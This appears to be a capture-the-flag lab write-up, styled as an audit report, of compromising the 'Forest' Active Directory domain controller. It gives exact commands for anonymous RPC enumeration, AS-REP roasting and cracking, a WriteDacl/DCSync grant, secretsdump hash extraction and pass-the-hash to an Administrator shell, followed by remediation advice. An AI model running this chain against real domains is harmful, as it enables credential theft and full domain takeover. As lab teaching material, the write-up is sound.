

## Engagement Overview

The auditor was tasked with assessing **Forest**, a Windows Active Directory domain controller, under a black-box methodology with no prior credentials. The objective was to identify exploitable weaknesses reachable from an unauthenticated network position and determine whether they could lead to full domain compromise.

## Methodology

The engagement followed a standard four-phase approach: reconnaissance, unauthenticated enumeration, credential access, and privilege escalation. Each finding below is presented with its technical root cause, the steps taken to validate it, and remediation guidance.

## Reconnaissance

A full port scan confirmed the target as a Domain Controller for `htb.local`:

```bash frame="code"
$ nmap -p- 10.10.10.161 --min-rate 10000
53/tcp   open  domain
88/tcp   open  kerberos-sec
389/tcp  open  ldap
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

No web service, NFS export, or SMB null session was reachable, and SID lookups failed. However, **RPC** accepted an anonymous connection, which is not the default expectation for a hardened domain controller:

```bash frame="code"
$ rpcclient -N 10.10.10.161 -U ""
rpcclient $> enumdomusers
```

## Finding 1: Anonymous RPC Enumeration Disclosing the Full User Directory

> [!WARNING]
> **Severity: Medium.** Unauthenticated disclosure of the complete domain user list.

The anonymous RPC session returned every account in the domain, including several `HealthMailbox` service accounts (indicating an Exchange deployment) and a small set of standard user accounts: `sebastien`, `lucinda`, `svc-alfresco`, `andy`, `mark`, and `santi`. This user list was the precondition for the next finding.

## Finding 2: AS-REP Roasting an Account Without Kerberos Pre-Authentication

> [!CAUTION]
> **Severity: Critical.** Unauthenticated retrieval and offline cracking of a valid domain credential.

Using the disclosed user list, the tester checked each account for Kerberos pre-authentication being disabled, a misconfiguration that allows anyone to request and receive an encrypted ticket for that account without supplying a password:

```bash frame="code"
$ GetNPUsers.py htb.local/ -usersfile users.list -dc-ip 10.10.10.161 -request
$krb5asrep$23$svc-alfresco@HTB.LOCAL:cbf771afd308fec4d869f3a1c4b5efad$...
```

The `svc-alfresco` account was vulnerable. The tester cracked the returned hash offline:

```bash frame="code"
$ hashcat -m 18200 svc-alfresco.hash /usr/share/wordlists/rockyou.txt
$krb5asrep$23$svc-alfresco@HTB.LOCAL:...:s3rvice
```

This yielded a valid, authenticated foothold in the domain:

```bash frame="code"
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

## Finding 3: Domain Compromise via a Nested Group Membership and WriteDacl Abuse

> [!CAUTION]
> **Severity: Critical.** A chain of default and nested Active Directory group memberships allowing any member to grant themselves DCSync rights over the entire domain.

An initial BloodHound pass suggested `svc-alfresco` had some outbound object control, but following it led nowhere productive. Re-running the analysis surfaced the real path: `svc-alfresco` was a member of **Privileged IT Accounts**, which was nested inside **Account Operators**, a built-in group with **GenericAll** rights over the **Exchange Windows Permissions** group, which itself held **WriteDacl** over the domain object:



The tester walked this path by first adding themselves to the Exchange Windows Permissions group:

```powershell frame="code"
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ADGroupMember -Identity "EXCHANGE WINDOWS PERMISSIONS" -Members svc-alfresco
```

then abusing that group's WriteDacl right over the domain to directly grant `svc-alfresco` DCSync replication rights:

```bash frame="code"
$ dacledit.py -action 'write' -rights DCSync -principal svc-alfresco -target-dn 'DC=htb,DC=local' HTB.LOCAL/svc-alfresco:s3rvice
```

With DCSync rights self-granted, the tester extracted every credential hash in the domain, including the built-in Administrator account:

```bash frame="code"
$ secretsdump.py 'HTB.LOCAL/svc-alfresco:s3rvice@10.10.10.161'
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

The recovered Administrator NT hash was used directly, via pass-the-hash, to obtain a shell on the domain controller:

```bash frame="code"
$ psexec.py 'Administrator@10.10.10.161' -hashes :32693b11e6aa90eb43d32c72a07ceea6
C:\Windows\system32>
```

This confirmed full compromise of the Active Directory domain.

## Impact

This engagement reached Domain Admin without exploiting a single software vulnerability. It relied entirely on default Active Directory behavior (Kerberos pre-authentication being optional per account) and a chain of built-in and nested group memberships that are easy to overlook in a routine access review: Account Operators granting GenericAll over Exchange Windows Permissions is a well-known but frequently unremediated legacy Exchange install artifact. An attacker exploiting this chain would gain unrestricted control of every account, machine, and resource in the domain.

## Recommendations

- **Enforce Kerberos pre-authentication** for all accounts; audit for and eliminate any accounts with `UF_DONT_REQUIRE_PREAUTH` set unless explicitly required.
- **Remove legacy Exchange-related permissions** (`Exchange Windows Permissions` holding `WriteDacl` over the domain) if Exchange is no longer in use, or tightly restrict membership of `Account Operators` and `Exchange Windows Permissions`, treating both as Tier 0 groups.
- **Audit nested group memberships regularly**; the exploitable path here existed three groups deep and was missed on a first BloodHound pass, which is exactly the kind of path real attackers specifically look for.
- **Monitor and alert on DACL modifications** to the domain object and on DCSync-style replication requests originating from non-Domain-Controller principals.

## Conclusion

The auditor successfully escalated from an anonymous RPC session to full Domain Admin, by chaining an AS-REP roastable service account with a nested group membership that ultimately granted WriteDacl over the domain itself. Both stages are detailed above with reproduction steps and remediation guidance.
